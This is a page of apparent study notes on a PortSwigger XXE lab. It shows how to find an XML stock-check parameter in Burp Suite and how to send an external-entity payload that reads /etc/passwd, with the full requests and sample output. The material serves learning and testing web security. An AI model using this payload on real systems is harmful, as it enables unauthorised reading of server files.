

## Identifying XML Input Parameters

### Finding XML Input Parameters

The first step is to identify parameters in the application that accept XML input. This can be done by analyzing HTTP requests and responses.

#### Analyzing the Request

1. **Click on View Details**: In Burp Suite, click on the "View Details" button to analyze the request.
2. **Send Request to Repeater**: Click on "Check Stock" and send the request to the Repeater module.



### Examining the Request

The request sent to the `/product/stock` endpoint contains XML input. Here is the full HTTP request:

```http
POST /product/stock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 52

<?xml version="1.0"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Testing for XXE Injection

Once you have identified the XML input parameter, you need to test for XXE injection.

#### Crafting the Malicious XML

To test for XXE, you can inject a malicious XML document that includes an external entity. Here is an example of a malicious XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Sending the Malicious Request

Send the crafted XML request to the `/product/stock` endpoint using the Repeater module.

```http
POST /product/stock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 152

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Analyzing the Response

Observe the response from the server. If the server is vulnerable to XXE, it will attempt to read the contents of `/etc/passwd` and return it in the response.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1024

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---
<!-- nav -->
[[10-How to Prevent  Defend Against XXE|How to Prevent  Defend Against XXE]] | [[Web Security (PortSwigger)/08-XXE Injection/06-Lab 5 Exploiting blind XXE to exfiltrate data using a malicious external DTD/00-Overview|Overview]] | [[12-Setting Up the Environment|Setting Up the Environment]]
